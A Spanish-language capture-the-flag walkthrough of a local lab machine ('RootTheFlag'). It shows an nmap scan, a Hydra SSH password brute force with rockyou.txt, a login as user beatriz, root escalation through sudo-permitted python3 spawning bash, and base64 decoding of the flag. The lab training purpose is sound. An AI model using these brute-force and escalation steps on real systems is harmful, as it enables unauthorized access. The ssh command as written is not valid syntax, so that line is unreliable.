 # Resolución de Máquina RootTheFlag de RootAccES

## Instalación

Si todavía no se han unido, el enlace al grupo de Telegram es https://lnkd.in/d-rsKYj3

En el canal Proyecto: RootTheFlag podrás encontrar el zip RootTheFlag01.zip

![root_the_flag](root_the_flag.png)
![zip](zip.png)

Tendrás que descargarlo en tu máquina atacante e inicializarla de la siguiente manera:

Descargar y ubicarlo en un directorio de tu preferencia

![descarga](descarga.png)

Descomprimir el archivo con unzip 

```bash
unzip RootTheFlag01.zip
```

![descomprimir](descomprimir.png)

Inicializar el contenedor
```bash
sudo bash script.sh nombrearchivo.tar
```

![inicializar](inicializar.png)

Se te mostrará una IP resultante de la máquina víctima inicializada

## Nmap

Empezamos con usando nmap para descubrir puertos abiertos

```bash
sudo nmap -p- -sS -sCV 172.17.0.2 --min-rate 5000 
```

Se logra visualizar que se encontraron los puertos 22 y 80 abiertos

![nmap](nmap.png)

El único indicio encontrado en la web (puerto 80) es el nombre "beatriz".

![web](web.png)

No hay nada más en el código de la página web

![codigo_web](codigo_web.png)

## Hydra

Hacemos uso Hydra para buscar un password por fuerza bruta por el puerto 22 con el usuario beatriz y el diccionario rockyou.txt

```bash
hydra -l beatriz -P rockyou.txt 172.17.0.2 ssh -f -V -t 64
```

![hydra](hydra.png)

Encontramos que el usuario "beatriz" es válido con el password "chocolate"

![hydra_resultado](hydra_resultado.png)

## SSH

Procedemos a conectarnos por ssh

```bash
ssh beatriz:chocolate@172.17.0.2
```

![ssh](ssh.png)

## Escalamiento de Privilegios

Ahora consultaremos si podemos ejecutar algún binario como usuario root

```bash
sudo -l
```

![sudol](sudol.png)

Se puede observar que el usuario beatriz puede ejecutar el binario python3 como root


## Searchbins

Una herramienta útil para encontrar como escalar privilegios es searchbins, les dejo el repositorio para que lo instalen fácilmente https://github.com/r1vs3c/searchbins
Esta herramienta básicamente es https://gtfobins.github.io/ pero desde tu terminal.

Ejecutamos
```bash
searchbins -b python -f sudo
```

Y nos aparece el comando para escalar privilegios a root

![searchbins](searchbins.png)

Lo modificaremos un poco antes de usarlo. Es recomendable colocar toda la ruta del binario, tal cuál nos mostró el sudo -l

```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```
![root](root.png)

Ya somos root

## Captura de Flag

Nos dirigimos a la carpeta /root y leemos el archivo flag.txt

Tomamos la parte que está entre llaves, que por su forma parece estar en base64 y lo desencriptamos

```bash
echo aHR0cHM6Ly9yb290YWNjLmVzCg== | base64 -d
```

![flag_final](flag_final.png)
